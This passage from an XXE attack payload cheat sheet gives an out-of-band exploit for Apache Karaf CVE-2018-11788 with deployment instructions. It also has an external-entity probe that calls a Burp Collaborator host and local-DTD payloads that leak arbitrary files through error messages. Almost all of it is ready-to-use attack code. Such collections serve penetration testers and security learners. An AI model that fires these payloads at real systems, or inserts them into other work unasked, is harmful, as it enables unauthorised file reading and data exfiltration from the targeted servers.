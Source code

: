 #### **XXE OOB with Apache Karaf**

CVE-2018-11788 affecting versions:

* Apache Karaf <= 4.2.1
* Apache Karaf <= 4.1.6

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://27av6zyg33g8q8xu338uvhnsc.canarytokens.com"> %dtd;]
<features name="my-features" xmlns="http://karaf.apache.org/xmlns/features/v1.3.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://karaf.apache.org/xmlns/features/v1.3.0 http://karaf.apache.org/xmlns/features/v1.3.0">
    <feature name="deployer" version="2.0" install="auto">
    </feature>
</features>
```

Send the XML file to the `deploy` folder.

Ref. [brianwrf/CVE-2018-11788](https://github.com/brianwrf/CVE-2018-11788)

### **XXE with local DTD**

In some case, outgoing connections are not possible from the web application. DNS names might even not resolve externally with a payload like this:

```
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://h3l9e5soi0090naz81tmq5ztaaaaaa.burpcollaborator.net'>]>
<root>&test;</root>
```

If error based exfiltration is possible, you can still rely on a local DTD to do concatenation tricks. Payload to confirm that error message include filename.

```
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///abcxyz/">

    %local_dtd;
]>
<root></root>
```

Assuming payloads such as the previous return a verbose error. You can start pointing to local DTD. With an found DTD, you can submit payload such as the following payload. The content of the file will be place in the error message.

```
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">

    <!ENTITY % ISOamsa '
        <!ENTITY &#x25; file SYSTEM "file:///REPLACE_WITH_FILENAME_TO_READ">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        '>

    %local_dtd;
]>
<root></root>
```
